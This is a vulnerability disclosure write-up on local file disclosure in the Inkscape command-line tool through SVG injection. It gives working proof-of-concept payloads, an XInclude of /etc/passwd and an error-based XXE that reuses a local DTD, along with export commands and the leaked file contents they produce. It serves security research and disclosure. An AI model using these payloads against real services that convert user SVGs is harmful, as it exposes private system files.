 # XML Parsing Issues in Inkscape CLI

We recently came across an application using the [Inkscape CLI](https://wiki.inkscape.org/wiki/Using_the_Command_Line) to convert generated SVG input text to a PDF file. We had a limited injection on the SVG input and chose to perform a rapid review of the latest Inkscape version (v1.2-alpha1 at time of writing), where we discovered two separate issues related to XML parsing, allowing for arbitrary file disclosure.

This was reported to the developers of inkscape, in which they insisted this was by design, and calling applications need to ensure they sanitise input correctly to avoid issues.

This short write-up provides two ways to leverage SVG injection to achieve LFI in Inkscape CLI.

## Preface

Inkscape is an opensource and cross-platform vector graphics editor, offering a broad set of features. Inkscape uses the standardized SVG file format as its main format, which is supported by many other applications including web browsers. It can import and export various file formats, including SVG, AI, EPS, PDF, PS and PNG. It has a comprehensive feature set, a simple interface, multi-lingual support and is designed to be extensible; users can customize Inkscape's functionality with add-ons. 

## XInclude Local File Disclosure 

### Description

Inkscape added support for XML XInclude in Merge Request https://gitlab.com/inkscape/inkscape/-/merge_requests/1150[1150] in late 2019, that introduced a local file disclosure vulnerability.

If an attacker can inject a `xi:include` XML tag into the input SVG, it will include the contents of the referenced local file in the output data of a generated PDF.

### Impact 

The Inkscape CLI binary exposes the contents of local files on the system, which is included in the output file.

### Proof-of-Concept 

```
<svg width="1000" height="20px" xmlns="http://www.w3.org/2000/svg" xmlns:xi="http://www.w3.org/2001/XInclude" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
	<text font-size="5" x="0" y="10">
		<xi:include parse="text" href="file:///etc/passwd"/>
	</text>
</svg>
```

Current Version (Inkscape 1.2-alpha1)
`inkscape test.svg --export-type=pdf --export-filename=output.pdf`

Utilities such as `pdftotext` can be used to fetch the PDF stream data:

```
$ pdftotext test.pdf out.txt ; head -2 out.txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

## Error-based XXE (Local DTD)

### Description 

There exists an error-based XML XXE vulnerability, that allows arbitrary file contents to be outputted to stderr. 

Successful exploitation requires the ability to control the start of the SVG input text and knowledge of a vulnerable local DTD file on the underlying system (see [reference](https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/)).

### Impact

The Inkscape CLI binary exposes the contents of local files, however is limited to stderr output.

### Proof-of-Concept 

```
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    <!ENTITY % constant '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
        <text font-size="16" x="0" y="16">test</text>
</svg>
```

Older Versions
`inkscape test.svg --export-pdf=output.pdf`

Current Version
`inkscape test.svg --export-type=pdf --export-filename=output.pdf`

```
file:///usr/share/xml/fontconfig/fonts.dtd:118: parser error : ContentDecl : Name or '(' expected
<!ELEMENT patelt (%constant;)">

Entity: line 2:
        <!ENTITY % file SYSTEM "file:///etc/passwd">
        ^
file:///usr/share/xml/fontconfig/fonts.dtd:118: parser error : expected '>'
<!ELEMENT patelt (%constant;)">

Entity: line 2:
        <!ENTITY % file SYSTEM "file:///etc/passwd">
        ^
Entity: line 4: parser error : Invalid URI: file:///nonexistant/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

## Discovered
* March 2022, Victor, elttam

## References
* https://gitlab.com/inkscape/inkscape/-/merge_requests/1150
* https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/
* https://www.xpdfreader.com/pdftotext-man.html
